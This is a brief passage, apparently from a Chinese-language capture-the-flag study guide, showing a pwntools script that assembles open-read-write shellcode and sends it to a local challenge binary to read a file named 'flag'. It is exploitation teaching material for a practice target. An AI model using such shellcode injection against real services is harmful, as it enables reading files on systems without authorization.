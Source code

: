 ![image-20220327142856029](自救指南.assets/image-20220327142856029.png)



#### pwntools Exploit

pwntools里提供了简便的orw方法

```python
from pwn import*
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

o = process('./orw_shellcode')

shellc = shellcraft.open('flag')	# pwntools内置方法
shellc += shellcraft.read('rax', 'rsp', 0x50)
shellc += shellcraft.write(1, 'rsp', 0x50)
shellc = asm(shellc)
o.recv()
o.sendline(shellc)
o.interactive()
```
